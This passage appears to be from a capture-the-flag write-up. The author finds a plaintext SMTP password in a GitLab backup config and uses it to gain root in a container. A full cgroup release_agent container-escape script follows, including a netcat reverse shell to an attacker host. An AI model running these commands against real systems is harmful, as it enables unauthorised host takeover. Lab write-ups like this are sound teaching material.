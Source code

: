 Performing an `grep` search on it looking for passwords (`passwd`, `password`, `pwd`), found an entry that called attention on `/opt/backup/gitlab.rb`, as we can see in the output below, after removing commented and blank lines.

```bash
git@gitlab:/opt/backup$ cat /opt/backup/gitlab.rb | grep -Ev '^#|^$'
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
git@gitlab:/opt/backup$
```

With this credential, tested it for the user `root` and succeeded, but in root's home path **there was no `root.txt`**, indicating that we'll need to escape the container to obtain the root's flag.

```bash
git@gitlab:/opt/backup$ su root
Password:
root@gitlab:/opt/backup# ls -la /root
total 28
drwx------ 1 root root 4096 Feb 27 13:24 .
drwxr-xr-x 1 root root 4096 Dec  1 12:41 ..
lrwxrwxrwx 1 root root    9 Dec  7 16:56 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 2 root root 4096 Feb 27 13:24 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwx------ 2 root root 4096 Dec  7 16:49 .ssh
-rw------- 1 root root 1565 Dec 13 15:06 .viminfo
root@gitlab:/opt/backup#
```

### Escaping container

Once we have privileged access inside the container, if it is running under specific circunstancies, we can escape to the host as was very well documented in this blog post [Understanding Docker container escapes \| Trail of Bits Blog](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/), found after some research in this scenario.

Following the step-by-step described on it, created a listener in 4443 TCP in attacker machine and executed the following steps using root privileges, obtaining this way a reverse shell.

```bash
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
 
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
 
echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f" >> /cmd
chmod a+x /cmd
 
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

In the received connection, confirmed that we were in the host running `docker ps` command and then obtained the root flag.
